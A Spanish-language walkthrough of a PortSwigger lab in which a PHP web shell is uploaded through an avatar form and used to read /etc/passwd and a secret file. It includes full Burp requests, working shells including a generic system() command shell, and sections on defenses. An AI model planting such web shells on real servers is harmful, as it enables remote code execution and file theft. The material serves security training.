






# PortSwigger Web Security Academy — File upload vulnerabilities Lab 1

## Remote code execution via web shell upload

**URL del laboratorio:** `https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload`

**Categoría:** File upload vulnerabilities  
**Técnica principal:** subida de web shell PHP  
**Impacto:** ejecución remota de código en el servidor, lectura de archivos locales y exfiltración del secreto de Carlos  
**Credenciales dadas por el laboratorio:** `wiener:peter`

---

## 1. Enunciado del laboratorio

El laboratorio contiene una funcionalidad vulnerable de subida de imágenes. La aplicación permite que un usuario autenticado suba un avatar para su perfil, pero no valida correctamente el archivo subido antes de guardarlo en el sistema de archivos del servidor.

El objetivo del laboratorio es:

1. Iniciar sesión como el usuario `wiener`.
2. Localizar la funcionalidad de subida de avatar.
3. Subir una web shell básica en PHP.
4. Acceder al archivo PHP subido desde el navegador o desde Burp Repeater.
5. Hacer que el servidor ejecute ese PHP.
6. Leer el contenido de:

```text
/home/carlos/secret
```

7. Enviar el valor del secreto usando el botón **Submit solution** del banner del laboratorio.

La idea fundamental es que no basta con subir un archivo peligroso. Para que haya ejecución remota de código, el servidor tiene que guardar el archivo en una ruta accesible y además interpretar ese archivo como código ejecutable.

---

## 2. Vista inicial del laboratorio

Al iniciar el laboratorio se abre una aplicación tipo blog de Web Security Academy. En la parte superior aparece el título del reto:

```text
Remote code execution via web shell upload
```

También vemos que el laboratorio todavía no está resuelto.



En este punto todavía no vemos la vulnerabilidad directamente, pero el enunciado nos da una pista fuerte: la vulnerabilidad está en una funcionalidad de subida de imágenes. En estos laboratorios, esa funcionalidad suele estar asociada al perfil del usuario, concretamente al avatar.

---

## 3. Concepto base: qué es una vulnerabilidad de subida de archivos

Una vulnerabilidad de subida de archivos ocurre cuando una aplicación permite al usuario subir archivos al servidor sin aplicar controles suficientes.

Esto puede tener distintos niveles de gravedad:

- Si el archivo se guarda pero no se puede acceder desde fuera, el impacto puede ser limitado.
- Si el archivo se guarda y se sirve públicamente, puede permitir almacenamiento de contenido malicioso.
- Si el archivo se guarda en un directorio ejecutable y el servidor lo interpreta como código, el impacto puede llegar a **Remote Code Execution**.

En este laboratorio ocurre el caso crítico: la aplicación permite subir un archivo PHP y después el servidor lo ejecuta cuando se accede a él.

---

## 4. Qué es una web shell

Una web shell es un archivo subido al servidor que contiene código ejecutable. El atacante lo invoca mediante una petición HTTP y el servidor ejecuta ese código.

En PHP, una web shell mínima puede ser algo como:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Ese código no abre una shell interactiva. Es una web shell muy simple que solo hace una cosa: leer un archivo del servidor y mostrarlo en la respuesta HTTP.

Una web shell más genérica podría ser:

```php
<?php system($_GET['cmd']); ?>
```

Con esa variante, un atacante podría ejecutar comandos pasando parámetros por URL, por ejemplo:

```text
/shell.php?cmd=id
/shell.php?cmd=whoami
```

Pero para este laboratorio no hace falta una shell interactiva. Basta con leer `/home/carlos/secret`.

---

## 5. Por qué esto puede convertirse en RCE

La subida de archivos por sí sola no siempre implica RCE. Para que exista ejecución remota de código tienen que cumplirse varias condiciones.

En este laboratorio se cumplen estas tres:

1. El usuario puede subir archivos al servidor.
2. El servidor guarda el archivo en una ruta accesible desde la web.
3. El servidor interpreta los archivos `.php` como código PHP ejecutable.

El flujo sería:

```text
Atacante sube shell.php
        ↓
Servidor guarda shell.php en /files/avatars/
        ↓
Atacante visita /files/avatars/shell.php
        ↓
Apache/PHP ejecuta el archivo
        ↓
El código PHP lee /home/carlos/secret
        ↓
La respuesta HTTP contiene el secreto
```

La frase importante es esta:

> El problema no es solo que puedas subir un archivo PHP. El problema grave es que puedas acceder a ese PHP y que el servidor lo ejecute.

---

## 6. Qué validaciones debería hacer una aplicación segura

Una aplicación segura no debería confiar en un único control. Lo correcto es aplicar varias capas defensivas.

### 6.1 Validar extensión

La aplicación debería rechazar extensiones ejecutables como:

```text
.php
.php5
.phtml
.jsp
.aspx
```

El problema es que validar solo la extensión es débil, porque un atacante puede intentar nombres como:

```text
shell.php.jpg
shell.phtml
shell.PHP
```

### 6.2 Validar Content-Type

En una subida normal de imagen, el navegador envía una cabecera de parte como:

```http
Content-Type: image/webp
```

o:

```http
Content-Type: image/jpeg
```

Pero esta cabecera la controla el cliente. Un atacante puede cambiarla desde Burp Suite. Por tanto, no se puede confiar en ella como única defensa.

### 6.3 Validar contenido real

Una aplicación segura debería inspeccionar el contenido real del archivo.

Por ejemplo, un JPEG suele empezar por bytes característicos como:

```text
FF D8 FF
```

Un PNG empieza con:

```text
89 50 4E 47
```

En cambio, un PHP empieza normalmente por:

```php
<?php
```

Si un archivo dice ser imagen pero empieza por `<?php`, no debería aceptarse.

### 6.4 Renombrar el archivo

No se debería guardar el archivo con el nombre original proporcionado por el usuario. El servidor debería generar un nombre nuevo, por ejemplo:

```text
avatar_928347192.jpg
```

Esto evita ataques de sobrescritura y reduce el control del atacante sobre la ruta final.

### 6.5 Guardar fuera del webroot

Lo más seguro es guardar los uploads fuera del directorio público del servidor web. Luego, si hay que mostrarlos, se sirven mediante un controlador que los lee como datos, no como código.

### 6.6 Desactivar ejecución en la carpeta de uploads

Aunque se subiera un PHP por error, la carpeta de uploads debería estar configurada para no ejecutar código.

En Apache, por ejemplo, se puede configurar una carpeta para que no ejecute PHP. Si eso estuviera aplicado aquí, al acceder a `shell.php` veríamos el texto del archivo o se descargaría, pero no se ejecutaría.

---

## 7. Acceso a My Account

El laboratorio proporciona las credenciales:

```text
wiener:peter
```

Entramos en **My account** y vemos el panel del usuario `wiener`. En esta página aparece un formulario para actualizar email y, más abajo, una sección para subir avatar.



La parte relevante es:

```text
Avatar:
[Browse...] [No file selected]
[Upload]
```

Este formulario es el punto de entrada de la vulnerabilidad.

---

## 8. Primera prueba: subir una imagen normal

Antes de subir código PHP, conviene entender cómo funciona el flujo normal.

Subimos una imagen legítima como avatar. Tras subirla, la aplicación la muestra correctamente en el perfil.



Esto nos demuestra que:

1. La funcionalidad de subida está activa.
2. El servidor guarda el archivo.
3. El avatar se sirve posteriormente desde alguna URL.

El siguiente paso es capturar con Burp Suite cómo se envía ese archivo y desde qué ruta se sirve después.

---

## 9. Captura de la petición de subida

Al subir el avatar, Burp captura una petición similar a esta:

```http
POST /my-account/avatar HTTP/2
Host: 0af0008903dd914282cab1f700340057.web-security-academy.net
Cookie: session=QomyEjOoFJvUtYo1M6JM2ILL6O7yAVtw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary282371ad8b50efd8f7ac94255f738924
Content-Length: 41226
Origin: https://0af0008903dd914282cab1f700340057.web-security-academy.net
Referer: https://0af0008903dd914282cab1f700340057.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary282371ad8b50efd8f7ac94255f738924
Content-Disposition: form-data; name="avatar"; filename="dragonairEspañol.webp"
Content-Type: image/webp

[contenido binario de la imagen]
```

La línea más importante es:

```http
POST /my-account/avatar
```

Ese es el endpoint de subida del avatar.

También son importantes estas líneas:

```http
Content-Type: multipart/form-data; boundary=----geckoformboundary...
```

```http
Content-Disposition: form-data; name="avatar"; filename="dragonairEspañol.webp"
Content-Type: image/webp
```

Aquí vemos el nombre original del archivo y el tipo MIME declarado.

---

## 10. Qué significa multipart/form-data

Cuando un formulario sube archivos, no se usa normalmente `application/x-www-form-urlencoded`, porque ese formato está pensado para pares simples tipo:

```text
nombre=Juan&email=juan@test.com
```

Un archivo contiene bytes arbitrarios. Una imagen, por ejemplo, no es texto plano. Si se intentara meter directamente en un formato `key=value`, podrían aparecer caracteres que rompiesen la estructura del formulario.

Por eso se usa:

```http
Content-Type: multipart/form-data
```

Ese formato divide el cuerpo de la petición en partes separadas por un `boundary`.

Ejemplo simplificado:

```http
------boundary
Content-Disposition: form-data; name="avatar"; filename="foto.webp"
Content-Type: image/webp

[bytes de la imagen]
------boundary
Content-Disposition: form-data; name="user"

wiener
------boundary--
```

Cada parte tiene sus propias cabeceras y su propio contenido.

La aplicación recibe esas partes y extrae:

- El archivo del campo `avatar`.
- El usuario.
- El token CSRF si existe.

En el ataque, modificaremos la parte del archivo para que el nombre sea `shell.php` y el contenido sea código PHP.

---

## 11. Descubrir la ruta pública de los avatares

Después de subir una imagen normal y volver a la página de perfil, Burp captura una petición como esta:

```http
GET /files/avatars/dragonairEspa%C3%B1ol.webp HTTP/2
Host: 0aa3001503758b8282d01f3100b60078.web-security-academy.net
Cookie: session=hRHshy2baxDo252O2sIkBpVRgEuY9i37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa3001503758b8282d01f3100b60078.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
If-Modified-Since: Sat, 09 May 2026 16:49:51 GMT
If-None-Match: "9f2c-651654d5b6cf0"
Priority: u=5, i
Te: trailers
```

Esta petición es importantísima porque revela la ruta donde se sirven los avatares:

```text
/files/avatars/NOMBRE_DEL_ARCHIVO
```

Esto significa que si subimos un archivo llamado:

```text
shell.php
```

probablemente estará disponible en:

```text
/files/avatars/shell.php
```

Esto nos da la segunda pieza del ataque: no solo podemos subir el archivo, también sabemos dónde invocarlo.

---

## 12. Por qué el avatar roto no significa que el ataque haya fallado

Cuando subimos un PHP como avatar, la página intenta mostrarlo como imagen. El navegador carga el recurso como si fuera una imagen, pero el archivo no es una imagen real.

Por eso aparece un icono de imagen rota.



Esto no significa que el ataque haya fallado. De hecho, es normal.

Lo importante no es que el navegador lo renderice como imagen, sino que al acceder a:

```text
/files/avatars/shell.php
```

el servidor ejecute el PHP.

---

## 13. Preparar la web shell

El laboratorio pide leer:

```text
/home/carlos/secret
```

El payload mínimo es:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Desglose:

```php
<?php
```

Abre un bloque PHP.

```php
echo
```

Imprime algo en la respuesta HTTP.

```php
file_get_contents('/home/carlos/secret')
```

Lee el contenido del archivo `/home/carlos/secret`.

```php
?>
```

Cierra el bloque PHP.

Cuando el servidor ejecute ese archivo, la respuesta HTTP contendrá directamente el secreto.

---

## 14. Primera prueba de ejecución con /etc/passwd

Antes de ir directamente al secreto, podemos probar con un archivo conocido como:

```text
/etc/passwd
```

El payload sería:

```php
<?php echo file_get_contents('/etc/passwd'); ?>
```

Esto sirve para confirmar que tenemos lectura de archivos locales y que el PHP realmente se ejecuta.

La petición modificada queda así:

```http
POST /my-account/avatar HTTP/1.1
Host: 0a46007f03e28b3d82c33339008a0020.web-security-academy.net
Cookie: session=mjBnYCbjVLCIm311QnQZwskYORNUcXes
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a46007f03e28b3d82c33339008a0020.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundary4b1691313cfbcbc7a814fe933bb0cbcc
Content-Length: 41226
Origin: https://0a46007f03e28b3d82c33339008a0020.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

------geckoformboundary4b1691313cfbcbc7a814fe933bb0cbcc
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/webp

<?php echo file_get_contents('/etc/passwd'); ?>
------geckoformboundary4b1691313cfbcbc7a814fe933bb0cbcc
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary4b1691313cfbcbc7a814fe933bb0cbcc
Content-Disposition: form-data; name="csrf"

IvPRJofrHM9vOjrcoUKHBUWs2ICKXmVr
------geckoformboundary4b1691313cfbcbc7a814fe933bb0cbcc--
```

Observa tres modificaciones importantes:

1. Cambiamos el nombre del archivo a:

```text
shell.php
```

2. Sustituimos el contenido binario de la imagen por código PHP:

```php
<?php echo file_get_contents('/etc/passwd'); ?>
```

3. Dejamos el `Content-Type` como `image/webp`.

Esto último demuestra que el servidor no está validando realmente el contenido. Aunque diga `image/webp`, el archivo contiene PHP.

---

## 15. Respuesta de subida del shell

El servidor responde:

```http
HTTP/2 200 OK
Date: Sat, 09 May 2026 17:11:42 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 130

The file avatars/shell.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Esta respuesta confirma varias cosas:

- El servidor aceptó el archivo.
- El archivo se guardó como `shell.php`.
- No hubo bloqueo por extensión `.php`.
- No hubo bloqueo por contenido PHP.
- No hubo validación real del tipo de archivo.

La frase clave es:

```text
The file avatars/shell.php has been uploaded.
```

---

## 16. Ejecutar el PHP subido

Ahora accedemos a:

```text
/files/avatars/shell.php
```

La petición capturada puede verse así:

```http
GET /files/avatars/shell.php HTTP/2
Host: 0a46007f03e28b3d82c33339008a0020.web-security-academy.net
Cookie: session=mjBnYCbjVLCIm311QnQZwskYORNUcXes
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a46007f03e28b3d82c33339008a0020.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5, i
Te: trailers
```

Aunque el navegador lo pida como imagen, el servidor decide qué hacer según la configuración del servidor web. Como el archivo acaba en `.php`, Apache/PHP lo interpreta como código.

La respuesta al payload de prueba con `/etc/passwd` devuelve algo similar a:

```http
HTTP/2 200 OK
Date: Sat, 09 May 2026 17:15:58 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
...
```

Esto confirma completamente la ejecución de PHP.

Si el servidor hubiera devuelto literalmente esto:

```php
<?php echo file_get_contents('/etc/passwd'); ?>
```

entonces no habría ejecución. Pero como devuelve el contenido de `/etc/passwd`, sabemos que la shell se está ejecutando en el servidor.

---

## 17. Qué significa leer /etc/passwd

`/etc/passwd` no contiene contraseñas reales en sistemas Linux modernos. Normalmente las contraseñas están en `/etc/shadow`, que requiere privilegios más altos.

Pero `/etc/passwd` sí enumera usuarios del sistema. En la salida vemos:

```text
carlos:x:12002:12002::/home/carlos:/bin/bash
```

Esto confirma que existe el usuario `carlos` y que su directorio home es:

```text
/home/carlos
```

El laboratorio ya nos había dicho que el secreto está en:

```text
/home/carlos/secret
```

Así que ahora cambiamos el payload para leer ese archivo concreto.

---

## 18. Subir la web shell final para leer el secreto

Ahora modificamos el contenido de `shell.php` para que sea:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

La parte relevante de la petición queda así:

```http
------geckoformboundary4b1691313cfbcbc7a814fe933bb0cbcc
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/webp

<?php echo file_get_contents('/home/carlos/secret'); ?>
------geckoformboundary4b1691313cfbcbc7a814fe933bb0cbcc
```

El servidor vuelve a aceptar el archivo con `200 OK`.

Después volvemos a solicitar:

```text
/files/avatars/shell.php
```

Esta vez la respuesta contiene el secreto.

```http
HTTP/2 200 OK
Date: Sat, 09 May 2026 17:21:19 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

XJ82WyY88KPqIdzdRwxRxjxlmLwHYULe
```

El secreto obtenido es:

```text
XJ82WyY88KPqIdzdRwxRxjxlmLwHYULe
```

---

## 19. Enviar la solución

Con el secreto obtenido, usamos el botón **Submit solution** del banner del laboratorio y lo introducimos en el cuadro de respuesta.



Tras enviarlo, el laboratorio queda resuelto.



---

## 20. Desglose técnico completo del ataque

### 20.1 Source

El source es el archivo que el usuario puede subir desde el formulario de avatar.

```text
Campo vulnerable: avatar
Endpoint: POST /my-account/avatar
```

### 20.2 Control del atacante

El atacante controla:

- Nombre del archivo.
- Extensión del archivo.
- Cabecera `Content-Type` de la parte multipart.
- Contenido completo del archivo.

### 20.3 Fallo de validación

La aplicación no valida correctamente:

- Extensión `.php`.
- Tipo MIME real.
- Contenido del archivo.
- Firma mágica del archivo.

### 20.4 Ubicación del archivo subido

El archivo queda accesible bajo:

```text
/files/avatars/shell.php
```

### 20.5 Sink / ejecución

El sink real es la ejecución del archivo PHP por parte del servidor web.

Cuando se accede a:

```text
/files/avatars/shell.php
```

Apache/PHP interpreta el archivo como código.

### 20.6 Impacto

El impacto es RCE con los permisos del usuario del servidor web, probablemente `www-data`.

En este laboratorio, eso permite leer:

```text
/home/carlos/secret
```

---

## 21. Por qué `Content-Type: image/webp` no protege

En la petición maliciosa, dejamos:

```http
Content-Type: image/webp
```

pero el contenido real es:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Eso demuestra que el servidor no valida el contenido real. Si solo confiara en la cabecera `Content-Type`, sería una defensa débil porque el atacante puede cambiarla manualmente.

La cabecera `Content-Type` del multipart es una afirmación del cliente, no una prueba fiable.

---

## 22. Por qué la extensión `.php` es crítica

El servidor Apache con PHP suele decidir si ejecuta un archivo según su extensión y configuración.

Si el archivo se llama:

```text
shell.txt
```

probablemente se serviría como texto.

Si se llama:

```text
shell.php
```

Apache puede pasarlo al intérprete PHP.

Por eso cambiamos:

```text
dragonairEspañol.webp
```

por:

```text
shell.php
```

La extensión cambia el comportamiento del servidor.

---

## 23. Por qué la ruta `/files/avatars/` es peligrosa

La ruta de uploads debería ser un lugar pasivo donde los archivos se descargan como datos. En este laboratorio, la ruta `/files/avatars/` permite que un `.php` subido se ejecute.

Esto indica una mala configuración típica:

```text
uploads dentro del webroot + ejecución PHP habilitada
```

Una configuración más segura sería:

```text
/uploads/avatars/       → sin ejecución PHP
/var/private/uploads/   → fuera del webroot
```

---

## 24. Diferencia entre archivo servido y archivo ejecutado

Esta diferencia es clave.

### Archivo servido como estático

Si el servidor lo sirve como estático, al pedir:

```text
/files/avatars/shell.php
```

veríamos:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Eso sería una exposición del código fuente, pero no RCE.

### Archivo ejecutado

En este laboratorio, al pedir:

```text
/files/avatars/shell.php
```

vemos:

```text
XJ82WyY88KPqIdzdRwxRxjxlmLwHYULe
```

Eso significa que el código se ejecutó.

---

## 25. Qué hace exactamente `file_get_contents()`

`file_get_contents()` es una función de PHP que lee el contenido completo de un archivo y lo devuelve como string.

Ejemplo:

```php
file_get_contents('/home/carlos/secret')
```

Si el proceso PHP tiene permisos de lectura sobre ese archivo, devuelve el contenido.

Luego `echo` lo imprime en la respuesta HTTP.

Código completo:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Equivale conceptualmente a:

```text
leer archivo /home/carlos/secret
imprimir el resultado en la respuesta
```

---

## 26. Qué permisos está usando el servidor

El servidor probablemente ejecuta PHP como un usuario del sistema como:

```text
www-data
```

En la salida de `/etc/passwd` aparece:

```text
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

Eso no significa necesariamente que la shell se ejecute como `www-data`, pero es lo más habitual en Apache/PHP.

El laboratorio está configurado para que ese proceso pueda leer `/home/carlos/secret`, por eso el ataque funciona.

En un entorno real, leer archivos dependería de permisos del sistema operativo.

---

## 27. Errores defensivos concretos de la aplicación

La aplicación comete varios errores encadenados:

1. Permite subir archivos con extensión `.php`.
2. No valida el contenido real del archivo.
3. Confía en datos controlados por el usuario como `filename` y `Content-Type`.
4. Guarda el archivo subido en una ruta pública.
5. Permite ejecución de PHP en la carpeta de avatares.
6. No renombra el archivo de forma segura.
7. No separa contenido subido por usuarios de código ejecutable.

La explotación funciona porque todos estos fallos se combinan.

---

## 28. Cómo debería corregirse

Una defensa correcta debería aplicar varias medidas a la vez.

### 28.1 Lista blanca de extensiones

Permitir solo extensiones esperadas:

```text
.jpg
.jpeg
.png
.webp
```

y bloquear todo lo demás.

### 28.2 Validación de contenido real

Comprobar que el archivo sea realmente una imagen, por ejemplo usando librerías de procesamiento de imágenes.

### 28.3 Renombrado del archivo

Guardar el archivo con un nombre generado por el servidor:

```text
avatar_483920194.webp
```

### 28.4 Guardar fuera del webroot

No almacenar uploads en una carpeta ejecutable públicamente.

### 28.5 Desactivar ejecución

Configurar el servidor para que no ejecute scripts en `/files/avatars/`.

### 28.6 Reprocesar imágenes

Una técnica robusta es abrir la imagen con una librería segura y volver a generarla desde cero. Así se descartan metadatos y contenido extraño.

### 28.7 Control de permisos

El proceso web no debería tener acceso de lectura a archivos sensibles de otros usuarios.

---

## 29. Resumen rápido del laboratorio

El ataque completo fue:

1. Entramos como `wiener:peter`.
2. Localizamos la subida de avatar en **My account**.
3. Subimos una imagen normal para descubrir el flujo.
4. Capturamos la petición `POST /my-account/avatar`.
5. Confirmamos que usa `multipart/form-data`.
6. Descubrimos que los avatares se sirven desde `/files/avatars/`.
7. Cambiamos el archivo subido por `shell.php`.
8. Sustituimos el contenido por código PHP.
9. Confirmamos ejecución leyendo `/etc/passwd`.
10. Cambiamos el payload para leer `/home/carlos/secret`.
11. Accedimos a `/files/avatars/shell.php`.
12. Obtuvimos el secreto.
13. Lo enviamos en **Submit solution**.
14. El laboratorio quedó resuelto.

---

## 30. Idea clave final

La idea más importante de este laboratorio es:

> Una subida de archivos se convierte en RCE cuando el atacante puede subir código y después conseguir que el servidor lo ejecute.

No basta con mirar solo el formulario. Hay que analizar todo el ciclo de vida del archivo:

```text
subida → almacenamiento → ruta pública → interpretación por el servidor → ejecución
```

En este caso, todas las piezas estaban mal protegidas, por eso el ataque fue directo.


